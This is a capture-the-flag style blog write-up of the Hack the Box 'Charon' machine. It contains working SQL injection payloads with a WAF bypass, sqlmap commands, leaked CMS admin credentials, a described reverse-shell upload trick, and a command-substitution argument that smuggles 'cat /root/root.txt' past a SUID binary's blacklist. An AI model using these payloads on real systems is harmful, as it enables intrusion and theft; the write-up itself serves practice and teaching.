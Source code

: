 ```yaml
---
layout: post
title:  "Hack the Box - Charon"
date:   2015-11-17 16:16:01 -0600
categories: hackthebox sqli html escape hacking writeup
---
```


<img class="header-img" src="{{ "img/charon/home.png" | relative_url }}" />

The first step, as (almost) always, is to enumerate any open ports on the machine.

{% highlight shell %}
~ » nmap 10.10.10.31 -sS -A
Nmap scan report for 10.10.10.31
Host is up (0.022s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; p
| ssh-hostkey: 
|   2048 09:c7:fb:a2:4b:53:1a:7a:f3:30:5e:b8:6e:ec:83:ee (RSA)
|   256 97:e0:ba:96:17:d4:a1:bb:32:24:f4:e5:15:b4:8a:ec (ECDSA)
|_  256 e8:9e:0b:1c:e7:2d:b6:c9:68:46:7c:b3:32:ea:e9:ef (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Frozen Yogurt Shop
Warning: OSScan results may be unreliable because we could not find a
Device type: general purpose
Running (JUST GUESSING): Linux 3.X|4.X|2.6.X (91%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/
Aggressive OS guesses: Linux 3.11 - 4.1 (91%), Linux 3.2.0 (90%), Lin%), Linux 3.10 - 4.8 (85%), Linux 3.2 - 4.8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   22.54 ms 10.10.14.1
2   22.95 ms 10.10.10.31

OS and Service detection performed. Please report any incorrect resul
Nmap done: 1 IP address (1 host up) scanned in 20.81 seconds
{% endhighlight %}

Only 22 and 80 are open, so let's continue to enumerate and see what we can find on port 80. It appears to be a page for the "Freeeze" frozen yogurt shop. Everything is static except for the blog posts, which have URLs of the form: `http://charon.htb/singlepost.php?id=10`. Simple manual testing indicates that this is vulnerable -
{% highlight shell %}
http://charon.htb/singlepost.php?id=0%20union%20select%201,1,1,1,1
{% endhighlight %}
so let's put sqlmap on the case, and keep moving forward:
{% highlight shell %}
~ » sqlmap -u "http://charon.htb/singlepost.php?id=10" --level=5 --risk=3 --technique=U
{% endhighlight %}
(strangely sqlmap fails on this simple case...in any case, this database isn't useful to us)

Moving onwards, what should stick out to you is that the footer indicates this site is powered by "SuperCMS." That means we should definitely start looking for the login portal for "SuperCMS." This doesn't appear to be an actual CMS system, so we'll have to fall back to dirbuster to enumerate. I used the default wordlist `directory-list-2.3-medium.txt` which pretty quickly hits `/cmsdata/login.php`.

This leads us to a login page that appears to be not vulnerable to SQL injection, and a "Forgot Password" page that looks like it might be. The reasoning here is that the Login page returns the same error messages no matter what is passed, and has no decernable blind SQLi vulnerabilities. Meanwhile, the forgot password page gives at least 2 different types of errors:
```
' -> Incorrect format
x@x.c -> User not found with that email! 
``` 

A handy tricky for running / debugging sqlmap is to run it through Burpsuite:
{% highlight shell %}
~ » sqlmap -u "http://charon.htb/cmsdata/forgot.php" --data="email=x@x.c"  --level=5 --risk=3 --proxy=http://localhost:8080
{% endhighlight %}
sqlmap comes back with a potential blind SQLi vulnerability:
{% highlight shell %}
[...]
sqlmap identified the following injection point(s) with a total of 1122 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: email=x@x.c' RLIKE (SELECT (CASE WHEN (3782=3782) THEN 0x7840782e63 ELSE 0x28 END))-- DcMQ
---
[14:26:33] [INFO] the back-end DBMS is MySQL
[...]
{% endhighlight %}
but something that sticks out right away are the responses for UNION based injections:
<img src="{{ "img/charon/burp.png" | relative_url }}" />

Their response size and error message were drastically different than the rest, so let's take a closer look.

Working our way down the WAF Bypassing Strings <a href="https://www.owasp.org/index.php/SQL_Injection_Bypassing_WAF">here</a>, we quickly find that changing the casing on `UNION` gets us past the error. Using the limitations that we know of (the queryset must return an email), and slowly expanding our unions, we hit the jackpot on:
`' UnION SELECT 'x@x.c', 'x@x.c', 'x@x.c', 'x@x.c`
<img src="{{ "img/charon/bingo.png" | relative_url }}" />

The next step is to subsitute different values for `x@x.c` to see what gets echoed back to us and what has to be an email. After a short period, we quickly find this:
`' UnION SELECT '', (payload), '', 'x@x.c`.
From there we either manually query the database, or use our favorite tool, but we can quickly get the list of users and passwords (there are some other tricky aspects to this SQLi like dummy data, orderings, etc., but I'll leave that to the reader as an exercise):
`super_cms_adm / tamarro`

After logging in, there a few possible vulnerabilities: we can edit existing pages, create new pages, and upload images. Let's take a look at the image upload first. After doing a few probing tests, it's discovered that there is both client and server-side checks to make sure we're uploading an actual image, and that the extension is that of an image. Right when we're about to call this a dead end, we inspect the HTML source and see something funny:
{% highlight html %}
<form action="upload.php" method="POST" onsubmit="javascript:return ValidateImage(this);" name="frm" enctype="multipart/form-data">
<input type="file" name="image" />
<!-- <input type=hidden name="dGVzdGZpbGUx"> -->
<input type="submit"/>
</form>
{% endhighlight %}

`dGVzdGZpbGUx` looks a lot like base64, and when we decode it, we get `testfile1`, so clearly this is a tool for testing the upload. What happens when we decode it, give it a value, and try to upload something (I took a Blank.png file and inserted a reverse PHP shell into the middle of it to bypass the image restrictions):
<img src="{{ "img/charon/burp2.png" | relative_url }}" />

It renames the file for us! This lets us rename our "image" to a `.php` file and the web server will execute it as PHP and give us a reverse shell.

Once on the box, we quickly `cd` to `/home/decoder` and find a public key and encrypted password. 
{% highlight shell %}
$ cat decoder.pub
-----BEGIN PUBLIC KEY-----
MDwwDQYJKoZIhvcNAQEBBQADKwAwKAIhALxHhYGPVMYmx3vzJbPPAEa10NETXrV3
mI9wJizmFJhrAgMBAAE=
-----END PUBLIC KEY-----
{% endhighlight %}

This is an extremely short key, and is trivially breakable (via something like <a href="https://github.com/Ganapati/RsaCtfTool">RsaCtfTool</a>). Once we break it and get the private key, we can decrypt `pass.crypt` which gives us the ssh password for decoder.

Now we can SSH in as decoder, `cat user.txt` and begin to think about priv esc. One of my first steps during priv esc is always `sudo -l` and to look for SUID/SGID binaries:
{% highlight shell %}
$ find / -perm -u=s -type f 2>/dev/null
/usr/local/bin/supershell
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/at
/usr/bin/newgidmap
/usr/bin/newuidmap
/bin/ntfs-3g
/bin/ping6
/bin/mount
/bin/fusermount
/bin/umount
/bin/ping
/bin/su
{% endhighlight %}

`supershell` is obviously very suspect here, and is our most likely route to root. Let's try to figure out how this works:
{% highlight shell %}
$ supershell
Supershell (very beta)
usage: supershell <cmd>
$ supershell cat /root/root.txt
Supershell (very beta)
usage: supershell <cmd>
$ ltrace supershell
__libc_start_main(0x40082f, 1, 0x7fff323b28d8, 0x400940 <unfinished ...>
puts("Supershell (very beta)"Supershell (very beta)
)                                     = 23
puts("usage: supershell <cmd>"usage: supershell <cmd>
)                                    = 24
exit(1 <no return ...>
+++ exited (status 1) +++
$ ltrace supershell "ls ."
__libc_start_main(0x40082f, 2, 0x7ffc3bb1aa88, 0x400940 <unfinished ...>
puts("Supershell (very beta)"Supershell (very beta)
)                                     = 23
strncpy(0x7ffc3bb1a890, "ls ,", 255)                               = 0x7ffc3bb1a890
strcspn("ls ,", "|`&><'"\\[]{};#")                                 = 4
strlen("ls ,")                                                     = 4
strncmp("ls ,", "/bin/ls", 7)                                      = 61
+++ exited (status 0) +++
{% endhighlight %}

So, it's making sure we're _only_ running `/bin/ls` and that our input doesn't contain any of `` |&><'"\\[]{};#\` ``. To get around this requires a little bash knowledge, and a little creativity. First, it's pretty obviously missing a 3 big characters from it's blacklist: `$()`. This lets us execute a command _before_ `ls` runs. After doing a few local tests, it seems `ls` outputs the full file contents of a file if you try to list it:

{% highlight shell %}
~ » echo "givemeroot" > test_file
~ » ls "$(cat test_file)"
ls: cannot access 'givemeroot': No such file or directory
{% endhighlight %}

From there, it's simple:

{% highlight shell %}
$ supershell "/bin/ls \$(cat /root/root.txt)"
/bin/ls: cannot access 'REDACTED': No such file or directory
{% endhighlight %}